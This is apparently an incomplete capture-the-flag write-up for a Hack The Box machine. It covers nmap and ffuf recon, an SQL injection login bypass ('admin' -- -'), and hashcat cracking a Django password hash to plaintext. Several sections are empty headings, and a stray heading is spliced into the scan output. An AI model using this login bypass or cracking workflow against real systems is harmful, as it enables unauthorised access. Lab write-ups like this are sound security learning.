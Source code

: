 # Port Scanning 
`nmap` found 4 open TCP ports, SSH (22) , HTTP (80) , SMB (139,445):

```bash
# Nmap 7.91 scan initiated Sun Aug  1 08:48:33 2021 as: nmap -sC -sV -oN inital_scan.txt -v 10.10.11.101
Nmap scan report for 10.10.11.101
Host is up (0.058s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   WRITER<00>           Flags: <unique><active>
|   WRITER<03>           Flags: <unique><active>
|   WRITER<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active># Knowledge Gained

# Port Scanning
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-01T02:48:47
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug  1 08:48:50 2021 -- 1 IP address (1 host up) scanned in 16.78 seconds

```

# Web Reconnaissance
I added writer.htb in `/etc/hosts` file with associated IP address. I visited `http://writer.htb` and it returns this:
![[writer-web_root.png]]
###### Content Discovery:
I used `ffuf`  for fuzzing web contents.
```bash
$ ffuf -w /opt/SecLists/Discovery/Web-Content/common.txt  -u http://writer.htb/FUZZ         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://writer.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

contact                 [Status: 200, Size: 4899, Words: 242, Lines: 110]
logout                  [Status: 302, Size: 208, Words: 21, Lines: 4]
about                   [Status: 200, Size: 3522, Words: 250, Lines: 75]
static                  [Status: 301, Size: 309, Words: 20, Lines: 10]
dashboard               [Status: 302, Size: 208, Words: 21, Lines: 4]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10]
administrative          [Status: 200, Size: 1443, Words: 185, Lines: 35]
:: Progress: [4685/4685] :: Job [1/1] :: 388 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

![[writer-admin_login_page.png]]
<center>writer.htb/administrative</center>

# Exploitation
I tried some random username password combination. but did't work! Then I put SQLi Payload and bypassed Admin Login.
```sqli
username = admin' -- -
password = admin' -- -
```
![[writer-SQLi.png]]

Admin Dashboard Screenshot:

![[writer-admin_panel_bypass_with_SQLi.png]]

-------------
 I send admin login request to burp for harvesting database info.  There was total 6 columns and 2nd column executes our SQL Query.

 ![[writer-vulnerable_column.png]]
# Reverse shell as www-data

# Post-Exploitation
- From www-data shell to $USER

# Privilege Escalation
- Enumeration

# Gainning Root User

Apache2 Domain Mapping Config PATH :  `/etc/apache2/sites-enabled/000-default.conf`

```bash
─$ hashcat -m 10000 hashes.txt /usr/share/wordlists/rockyou.txt --force                                                                                                                                                          2 ⨯
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
CUDA API (CUDA 11.4)
====================
* Device #1: NVIDIA GeForce GT 1030, 1533/2000 MB, 3MCU

OpenCL API (OpenCL 3.0 CUDA 11.4.94) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce GT 1030, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 116 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Mon Sep 27 16:50:00 2021, (18 secs)
Time.Estimated...: Mon Sep 27 16:50:18 2021, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      670 H/s (8.91ms) @ Accel:4 Loops:128 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259968-259999
Candidates.#1....: 123456 -> hawkeye
Hardware.Mon.#1..: Temp: 65c Fan: 55% Util:100% Core:1746MHz Mem:3003MHz Bus:4

Started: Mon Sep 27 16:49:59 2021
Stopped: Mon Sep 27 16:50:19 2021
```
